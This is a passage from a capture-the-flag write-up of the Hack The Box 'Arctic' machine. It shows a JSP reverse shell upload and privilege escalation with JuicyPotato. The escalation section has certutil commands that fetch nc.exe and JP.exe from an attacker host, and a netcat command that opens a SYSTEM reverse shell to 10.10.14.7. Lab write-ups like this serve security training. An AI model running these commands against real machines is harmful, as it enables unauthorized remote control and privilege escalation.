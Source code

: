 ```bash
python3 -m http.server 80
```

Save and execute the task manually:  

![Executing task](GitHubv2/HackTheBox/EASY/Arctic/screenshots/web_executing_task.png)  

Confirm the upload in our server:

![Python server](GitHubv2/HackTheBox/EASY/Arctic/screenshots/python_server_reverse.png)  

And in directory:

![Uploaded reverse.jsp](GitHubv2/HackTheBox/EASY/Arctic/screenshots/web_port_8500_CFIDE_reverse_uploaded.png)  

Start a listener and trigger the reverse shell:

```bash
nc -nlvp 443
```

Clicking `reverse.jsp` spawns a shell.  

![User flag](GitHubv2/HackTheBox/EASY/Arctic/screenshots/user_flag.png)  

🏁 **User flag obtained**  

We are **tolis** user.

---
## 4. Privilege Escalation

Check tolis privileges:  

![User privileges](GitHubv2/HackTheBox/EASY/Arctic/screenshots/user_priv.png)  

The account has **SeImpersonatePrivilege**, exploitable with **JuicyPotato**.

We upload the binaries:

```bash
certutil.exe -f -urlcache -split http://10.10.14.7:80/nc.exe
certutil.exe -f -urlcache -split http://10.10.14.7:80/JP.exe
```

![Uploading nc & JP](screenshots/uploading_nc_and_JP.png)  

Execution:

```bash
.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.7 4646"
```

![Executing JuicyPotato](GitHubv2/HackTheBox/EASY/Arctic/screenshots/executing_JP.png)  

We catch the connection on port 4646 and obtain SYSTEM:  
